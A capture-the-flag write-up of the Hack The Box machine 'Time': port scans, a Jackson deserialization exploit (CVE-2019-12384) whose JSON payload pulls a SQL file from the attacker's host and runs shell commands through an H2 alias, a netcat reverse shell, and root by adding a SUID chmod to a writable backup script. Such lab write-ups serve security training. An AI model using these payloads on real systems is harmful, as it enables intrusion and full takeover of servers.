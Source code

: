 ```yaml
---
layout: post
title: "[HTB] Time"
description: "[Machine] - Medium difficulty"
background: '/img/bg-machine.jpg'
tags: [htb]
difficulty: Medium
---
```


![Time](/img/htb_img/Time_img/Time.png)

OS: Linux
IP: 10.10.10.214
Complete: Yes
Created time: July 16, 2025 5:52 PM
Level: Medium
Status: Done

# Enumeration

## Nmap recon

```bash
❯ sudo nmap -p- --open --min-rate 1500 -T4 -sS -n -Pn -vvv -oG allports $target
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-16 17:55 CEST
Initiating SYN Stealth Scan at 17:55
Scanning 10.10.10.214 [65535 ports]
Discovered open port 80/tcp on 10.10.10.214
Discovered open port 22/tcp on 10.10.10.214
Completed SYN Stealth Scan at 17:55, 12.99s elapsed (65535 total ports)
Nmap scan report for 10.10.10.214
Host is up, received user-set (0.042s latency).
Scanned at 2025-07-16 17:55:38 CEST for 13s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 13.08 seconds
           Raw packets sent: 65537 (2.884MB) | Rcvd: 65535 (2.621MB)
```

Scripts and versions.

```bash
❯ nmap -p22,80 -sCV -Pn -oN targeted $target       
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-16 17:56 CEST
Nmap scan report for 10.10.10.214
Host is up (0.041s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 0f:7d:97:82:5f:04:2b:e0:0a:56:32:5d:14:56:82:d4 (RSA)
|   256 24:ea:53:49:d8:cb:9b:fc:d6:c4:26:ef:dd:34:c1:1e (ECDSA)
|_  256 fe:25:34:e4:3e:df:9f:ed:62:2a:a4:93:52:cc:cd:27 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Online JSON parser
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.16 seconds
```

Port 22 (SSH) and 80 (HTTP) open.

## TCP 80 - HTTP

Port 80 is hosting an apache web server version 2.4.41 Codename Ubuntu.

![Json Beautifier](/img/htb_img/Time_img/01.png)

Json Beautifier

---

### Beautify option

The beautify option transforms the string `{"thing":"hug"}` into:

```bash
{
    "thing": "hug"
}
```

---

### Validate option

This page has a online json beautifier & validator program.
On the validator option, if we just enter a character like `s`, it shows the following error:

```bash
Validation failed: Unhandled Java exception: com.fasterxml.jackson.core.JsonParseException: Unrecognized token 's': was expecting ('true', 'false' or 'null')
```

With the same string as before we got the following error:

```bash
Validation failed: Unhandled Java exception: com.fasterxml.jackson.databind.exc.MismatchedInputException: Unexpected token (START_OBJECT), expected START_ARRAY: need JSON Array to contain As.WRAPPER_ARRAY type information for class java.lang.Object
```

Quick search for this error and it gives that it’s using Java - Jackson

---

# Foothold

We are going to exploit the **CVE-2019-12384.**

[Jackson gadgets - Anatomy of a vulnerability · Doyensec's Blog](https://blog.doyensec.com/2019/07/22/jackson-gadgets.html)

In this link we can find an example payload.

```bash
["ch.qos.logback.core.db.DriverManagerConnectionSource", {"url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://10.10.X.X/test.sql'"}]
```

It worked on our machine.

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.214 - - [16/Jul/2025 18:08:59] code 404, message File not found
10.10.10.214 - - [16/Jul/2025 18:08:59] "GET /test.sql HTTP/1.1" 404 -
```

---

In the web of this vuln we can find the following example SQL, and we can update it to weaponize our needs:

```bash
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
        String[] command = {"bash", "-c", cmd};
        java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
        return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('ping -c 1 10.10.X.X')
```

It sends the pings correctly.

```bash
❯ tshark -i tun0 -f 'icmp'
Capturing on 'tun0'
    1 0.000000000 10.10.10.214 → 10.10.X.X  ICMP 84 Echo (ping) request  id=0x0002, seq=1/256, ttl=63
    2 0.000030346  10.10.X.X → 10.10.10.214 ICMP 84 Echo (ping) reply    id=0x0002, seq=1/256, ttl=64 (request in 1)
```

---

## Reverse shell as Pericles

So, we put the reverse shell on the weaponized SQL file.

```bash
❯ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.X.X] from (UNKNOWN) [10.10.10.214] 34488
bash: cannot set terminal process group (852): Inappropriate ioctl for device
bash: no job control in this shell
pericles@time:/var/www/html$
```

### Upgrade shell

```bash
pericles@time:/var/www/html$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
pericles@time:/var/www/html$ ^Z
[1]  + 13406 suspended  nc -lvnp 4444

░▒▓      ~/HTB/Machines/Time/scripts                                                                                                                                               TSTP ✘  took 47s       at 18:14:47   ▓▒░
❯ stty raw -echo;fg
[1]  + 13406 continued  nc -lvnp 4444
pericles@time:/var/www/html$ export TERM=xterm
pericles@time:/var/www/html$
```

---

# Privilege Escalation

Although the user has a snap/lxd folder at his home, the user pericles is not part of the lxd group so the lxd exploiting method is not gonna work.

Let’s perform the usual enumerations and after that, we can upload `Linpeas.sh`.

```bash
[+] System timers
```

So, we have some interesting information about that.

```bash
pericles@time:/tmp$ find /etc/systemd/ -name timer_backup.service
/etc/systemd/system/timer_backup.service

pericles@time:/tmp$ cat /etc/systemd/system/timer_backup.service 
[Unit]
Description=Calls website backup
Wants=timer_backup.timer
WantedBy=multi-user.target

[Service]
ExecStart=/usr/bin/systemctl restart web_backup.service
```

It restarts another service:

```bash
pericles@time:/tmp$ cat /etc/systemd/system/web_backup.service
[Unit]
Description=Creates backups of the website

[Service]
ExecStart=/bin/bash /usr/bin/timer_backup.sh
```

So we see that timer_backup.sh script, let’s take a look, because that script is executed as sudo.

```bash
pericles@time:/tmp$ ls -lah /usr/bin/timer_backup.sh 
-rwxrw-rw- 1 pericles pericles 88 Jul 17 16:30 /usr/bin/timer_backup.sh
```

As we can see, that script is owned by pericles, so we can try to modify it to give us a privesc.

```bash
pericles@time:/tmp$ cat /usr/bin/timer_backup.sh 
#!/bin/bash
zip -r website.bak.zip /var/www/html && mv website.bak.zip /root/backup.zip
chmod u+s /bin/bash
```

With that last line we have permission to execute bash as root.

```bash
pericles@time:/tmp$ ls -lah /bin/bash
-rwsr-xr-x 1 root root 1.2M Feb 25  2020 /bin/bash
pericles@time:/tmp$ bash -p
bash-5.0# id
uid=1000(pericles) gid=1000(pericles) euid=0(root) groups=1000(pericles)
bash-5.0# cat /root/root.txt
<REDACTED>
```

---

---

---
